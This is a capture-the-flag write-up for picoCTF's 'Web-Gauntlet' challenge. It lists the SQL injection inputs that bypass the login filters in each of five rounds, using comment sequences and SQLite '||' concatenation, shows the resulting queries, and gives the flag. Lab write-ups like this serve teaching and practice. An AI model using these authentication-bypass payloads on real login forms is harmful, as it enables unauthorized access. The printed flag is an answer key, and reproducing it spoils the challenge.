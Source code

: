 # Web-Gauntlet
## Category
Web Exploitation
## Problem Description
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:41560/ http://jupiter.challenges.picoctf.org:41560/filter.php
## Approach
It is clear that the login form is meant to be bypassed using SQL injection.
### Round 1 - filter: or

I used basic injection and commented out the rest of the line.

input: ``` admin'-- ```

``` SELECT * FROM users WHERE username='admin'--' AND password='admin' ```

### Round 2 - filter: or and like = –

Without --, I checked for other ways to comment.

input: ``` admin'/* ```

``` SELECT * FROM users WHERE username='admin'/*' AND password='admin' ```

### Round 3 - filter: or and = like > < –

The first injection from the previous round still works here, but let’s try to get the second to work too.

input: ``` admin'/* ```

``` SELECT * FROM users WHERE username='admin'/*' AND password='admin' ```

### Round 4 - filter: or and = like > < – admin

In SQLITE, || is a concatenation operator. The simple solution is to simply split up “admin” in a way to bypass the filter.

input: ``` adm'||'in'/* ```

``` SELECT * FROM users WHERE username='adm'||'in'/* AND password='controller' ```

### Round 5 - filter: or and = like > < – union admin

Splitting up “admin” still works as only UNION is additionally blacklisted.

input: ``` adm'||'in'/* ```

``` SELECT * FROM users WHERE username='adm'||'in'/* AND password='controller' ```
## Flag
picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}
